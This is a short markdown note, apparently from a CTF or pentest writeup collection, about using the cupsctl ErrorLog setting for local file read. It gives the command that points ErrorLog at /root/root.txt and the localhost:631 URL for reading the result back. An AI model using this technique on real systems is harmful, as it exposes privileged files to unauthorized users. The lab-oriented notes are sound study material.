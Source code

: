 ```yaml
---
description: >-
  Cupsctl LFI
title: Cupsctl LFI              # Add title here
date: 2022-08-11 08:00:00 -0600                           # Change the date to match completion date
categories: [05 Utilities, Cupsctl]                     # Change Templates to Writeup
tags: [utilities, cupsctl, lfi]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### LFI
An LFI is present if you have access to the system, you need to change the ErrorLog path for the file that you want to read:
```bash
cupsctl ErrorLog="/root/root.txt"
```
Then from the web server we need to go to the following path:
```bash
http://localhost:631/admin/log/error_log?
```
Examples:
[[Antique#^4440dd]]